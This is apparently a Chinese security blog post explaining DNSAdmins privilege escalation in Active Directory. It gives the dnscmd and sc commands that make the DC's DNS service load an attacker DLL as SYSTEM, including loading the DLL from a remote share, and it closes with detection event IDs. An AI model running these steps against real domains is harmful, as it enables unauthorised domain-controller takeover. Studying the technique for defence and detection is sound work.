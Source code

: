 ```yaml
---
title: DNSAdmin
date: 2019-12-31 23:59:55 +0800
categories: [域安全, TA0004权限升级]
tags: [DNSAdmin, TA0004权限升级]     # TAG names should always be lowercase
typora-root-url: ..
---
```




## 0x00 简介

感染DNSAdmin组用户，为DNS服务配置恶意ServerLevelPluginDll，DNS服务会以system权限加载该Dll，从而达到提权目的。



**参考**：

https://github.com/kazkansouh/DNSAdmin-DLL

[Feature, not bug: DNSAdmin to DC compromise in one line](https://medium.com/@esnesenon/feature-not-bug-dnsadmin-to-dc-compromise-in-one-line-a0f779b8dc83)

[Abusing DNSAdmins privilege for escalation in Active Directory](http://www.labofapenetrationtester.com/2017/05/abusing-dnsadmins-privilege-for-escalation-in-active-directory.html)



## 0x01 DNSAdmin原理

域中DNS遵循[[MS-DNSP]: Domain Name Service (DNS) Server Management Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a?redirectedfrom=MSDN)协议，该协议提供了一组RPC接口用于远程访问和管理DNS服务器。通常DNS Server是DC，它运行着DNS服务，对应服务名“dns”，进程名“dns.exe”。





![image-20210102184724429](/assets/img/image-20210102184724429.png)

![image-20210102184906288](/assets/img/image-20210102184906288.png)

如上面文档中提到的，如果指定了ServerLevelPluginDll，DNS服务会加载对应的Dll，并调用该Dll实现的DNS查询函数等。DNSAdmins组有权限配置ServerLevelPluginDll (Domain Admins更加可以，但这样显示不出提权效果了)，一旦dll以system权限被加载，即可提权成功；dll中可以实现反弹shell、添加用户到管理员组等命令。

如果Dll加载失败，DNS服务也会启动失败，为此dll中必须实现以下三个函数。

```
DnsPluginInitialize
DnsPluginCleanup
DnsPluginQuery
```

以下是`mimilib.dll`相关实现，它会在每次DNS Server收到DNS Query时记录Query内容。也可以在`DnsPluginInitialize`或`DnsPluginQuery`中加入命令执行等。

![image-20210102190020537](/assets/img/image-20210102190020537.png)





## 0x02 DNSAdmin利用

1. 配置重启服务权限，[参考](https://github.com/kazkansouh/DNSAdmin-DLL#lab-environment)

默认情况下DNSAdmins中的用户是不能远程停止、开启DNS Server的，需要在DC上为指定用户SID添加权限。

```
//This will grant `CC`, `LC`, `RP` and `WP` which correlate to `sc` commands: `qc`, `query`, `start`, `stop`
(A;;CCLCRPWP;;;S-1-5-21-700907644-1504022619-419926652-1101)
```



```
> sc.exe sdset "dns" "D:(A;;CCLCSWRPWPDTLOCRRC;;;SY)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;BA)(A;;CCLCSWLOCRRC;;;IU)(A;;CCLCSWLOCRRC;;;SU)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;SO)(A;;CCLCRPWP;;;S-1-5-21-2475887593-94489213-2292866110-1103)S:(AU;FA;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;WD)"
```

```
PS C:\Users\Administrator> sc.exe sdshow dns

D:(A;;CCLCSWRPWPDTLOCRRC;;;SY)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;BA)(A;;CCLCSWLOCRRC;;;IU)(A;;CCLCSWLOCRRC;;;SU)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;SO)(A;;CCLCRPWP;;;S-1-5-21-2475887593-94489213-2292866110-1103)S:(AU;FA;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;WD)
```





2. 为DNS服务配置ServerLevelPluginDll

此命令在DNSAdmins用户登录的机器上执行即可，dnscmd.exe不是自带的，需要手动拷贝。因为是调用的DNS RPC 接口，所以DC上DNS服务必须是启动的。

```
//dll已经位于DNS Server上
dnscmd.exe /config /serverlevelplugindll c:\path\to\DNSAdmin-DLL.dll
```

```
//dll位于DNS Server可以访问的远程地址上，这里试过\\win10-pc\c$\DNSAdmin-DLL.dll，加载不成功
dnscmd.exe /config /serverlevelplugindll \\1.2.3.4\share\DNSAdmin-DLL.dll
```



设置成功后，会生成以下注册表：

`HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\services\DNS\Parameters\ServerLevelPluginDll`



3. 重启DNS服务，dll被加载。

```
C:\> sc \\ringdc-pc stop dns
C:\> sc \\ringdc-pc start dns
```

也可以参考[域渗透——利用dnscmd在DNS服务器上实现远程加载Dll](https://3gstudent.github.io/3gstudent.github.io/%E5%9F%9F%E6%B8%97%E9%80%8F-%E5%88%A9%E7%94%A8dnscmd%E5%9C%A8DNS%E6%9C%8D%E5%8A%A1%E5%99%A8%E4%B8%8A%E5%AE%9E%E7%8E%B0%E8%BF%9C%E7%A8%8B%E5%8A%A0%E8%BD%BDDll/)中，直接Pass the Hash，以Domain Admins用户身份重启服务，这样就不需要做第一步了。



## 0x03 检测

`HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\services\DNS\Parameters\ServerLevelPluginDll`

DNS Server Log Event ID 150 for failure and 770 for success

Microsoft-Windows-DNS-Server/Audit Log Event ID 541 for both success and failure.